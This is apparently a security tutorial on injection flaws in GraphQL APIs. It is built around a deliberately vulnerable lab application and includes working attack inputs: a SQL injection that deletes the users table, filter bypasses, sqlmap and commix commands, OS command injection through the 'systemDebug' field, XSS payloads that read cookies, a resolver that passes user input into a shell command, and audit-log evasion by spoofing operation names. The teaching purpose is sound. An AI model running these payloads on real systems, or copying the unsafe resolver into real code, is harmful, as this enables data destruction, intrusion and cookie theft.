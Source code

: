 # Injection Vulnerabilities in GraphQL

### **Introduction**

Injection vulnerabilities occur when an application accepts and processes untrustworthy input without any sanitization. Sanitization is a security measure that involves checking input and removing potentially dangerous characters from it. The absence of such a check could allow the input to be interpreted as a command or a query and execute on either the client side or server side.

### **The Injection Surface**&#x20;

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Network trust boundaries</p></figcaption></figure>

{% embed url="https://owasp.org/API-Security/editions/2023/en/0x11-t10/" %}

GraphQL presents a wide attack surface due to various points where user input can be injected. These include:

* **Query Arguments:** These are parameters supplied to fields in a GraphQL query. The chapter illustrates how the `pastes` field can take a `filter` argument, which can be vulnerable to SQL injection.

```graphql
# Query Inputs
query {
    pastes(limit: 100) {
        id
        ipAddr
    }
}
------------------------------
# Mutation input points
mutation {
    createPaste(content: "Some content", title:"Some title", public: false) {
        paste {
            id
            ipAddr
        }
    }
}
```

**Exploit**

```graphql
# exploit sql injection 
mutation {
    createPaste(content: "content'); DELETE FROM users; --") {
        paste {
            id
            ipAddr
        }
    }
}
```

* **Field Arguments**: GraphQL fields can also accept arguments that can be manipulated. The example provided involves the `username` field, which is shown to accept a `capitalize` argument.

```graphql
query {
    users {
        username(capitalize: true)
        id
    }
}
```

* **Query Directive Arguments:** Directives modify field behavior, and their arguments can also be a point of injection. An example is a `show_network` directive with a `style` argument.

```graphql
query {
    pastes {
        id
        ipAddr @show_network(style: "cidr")
    }
}
```

You can use the introspection query shown in  to get only the available directives by using the `__schema` meta-field with the directives field.

```graphql
query GetDirectives {
    __schema {
        directives {
            name
            description
            locations
        }
    }
}
```

* **Operation Names:** Clients can define operation names, and these can be manipulated to potentially bypass security measures or mislead log analysis. An example involves spoofing the operation name to bypass audit logging, for example using `SpoofedOperationName` instead of `createPaste`.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Executing a selected query based on its operation name in GraphiQL Explorer</p></figcaption></figure>

* **Input Entry Points:** Any place where user-controlled data is input, such as fields in mutations, which are used to create, update, or delete data, can be injection points. The `createPaste` mutation, which uses `content`, `title`, and `public` arguments, is one example.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* **SQL Injection (SQLi):** The chapter dedicates significant attention to SQL injection, explaining that it can occur when user input is used to construct SQL queries.
  * **Identification:** The chapter advises focusing on fields that accept string values and have names suggesting filtering, such as the `filter` argument in the `pastes` query.
  * **Manual Testing**: Techniques for testing SQL injection manually include using single (') or double (") quotes in input fields to observe how the application responds.
  * **Exploitation:** The chapter explains how to exploit SQLi by using SQL commands, such as `OR 1=1--`, within the filter argument to bypass intended filtering and retrieve all records.
  * **Automated Testing:** The chapter introduces **SQLmap**, a tool for automating SQL injection tests, and explains how to use it to read HTTP requests from a file and test for vulnerabilities.
  * **Database Fingerprinting**: Error messages from the database can be verbose and reveal the database structure to the attacker including table names.
  * **Types of SQL Injection**: The chapter mentions different types of SQLi, such as **blind SQL injection**, **Boolean-based SQL injection**, **error-based SQL injection**, and **time-based SQL injection**.

```graphql
query {
    pastes(filter:"My First Paste'") {
        id
        content
        title
    }
}
----------------------------
query {
    pastes(filter:"My First Paste' or 1=1--") {
        title
        content
    }
}
---------------------------
sqlmap -r request.txt --dbms=sqlite --tables

```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* **Operating System Command Injection:** The chapter explains how a GraphQL API can be vulnerable to OS command injection, for example when user input is incorporated into system commands.
  * **Code Review:** The chapter highlights the importance of reviewing resolver functions to identify where user inputs are used in OS commands.
  * **Manual Testing**: The chapter demonstrates a manual attack by showing how the `systemDebug` field's `arg` argument can be manipulated to execute commands by using a semicolon to separate them.
  * **Automated Testing:** The chapter introduces **Commix**, a tool that automates OS command injection testing by fuzzing various inputs. It explains how Commix can be used to test variations of payloads, characters, and methods and then save valuable time.

{% code overflow="wrap" %}
```graphql
query {
    systemDebug
}
------------------
query {
    systemDebug(arg:"; uptime")
}
-------------------------
# opuput
PID TTY TIME CMD\n 11999 pts/1 14050 pts/1 1 user, load average: 0.71, 0.84, 0.91\n"\ 00:00:00 bash\n

--------------------
# Automation
commix --url="http://127.0.0.1:5013/graphql" --data='{"query":"query{systemDebug(arg:\"test \")}"}' -p arg
```
{% endcode %}

* **Cross-Site Scripting (XSS):** The chapter discusses how to test for XSS vulnerabilities in GraphQL applications, focusing on three main types of XSS:
  * **Reflected XSS:** The chapter explains that reflected XSS can occur when a malicious script is injected into a request and then reflected back to the user in the response.
  * **Stored XSS:** The chapter notes that stored XSS occurs when malicious code is stored on the server, which can then be executed by other users accessing that data.
  * **DOM-Based XSS:** The chapter explains that DOM-based XSS can be exploited by manipulating the client-side JavaScript.
  * **Testing:** The chapter demonstrates how to test for XSS by inserting JavaScript code, such as `<script>alert("XSS")</script>`, into a mutation’s input fields like the `content` field of `createPaste`, and see if the injected script executes.

```graphql
query {
    hello(msg:"<script>document.cookie;</script>")
}
---------------------------
http://example.com/graphql?query=query%20%7B%0A%20%20hello(msg%3A%22hello%22)%0A%7D
----------------------------
http://example.com/graphql?query=query {hello(msg:"hello")}
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption><p>A stored XSS vulnerability impacting adjacent applications</p></figcaption></figure>



* **Importance of Resolver Functions:** The chapter underscores that understanding how resolver functions process client data is important for finding injection points. Reviewing resolver functions can reveal how inputs are handled and whether they are properly sanitized.

```python
def resolve_system_debug(self, info, arg=None):
    Audit.create_audit_entry(info)
    if arg:
        output = helpers.run_cmd('ps {}'.format(arg))
    else:
        output = helpers.run_cmd('ps')
    return output
```

* **Bypassing Security Measures:** The chapter notes that attackers can attempt to bypass security measures by manipulating GraphQL operation names. This can sometimes avoid audit logging or make malicious requests appear benign.
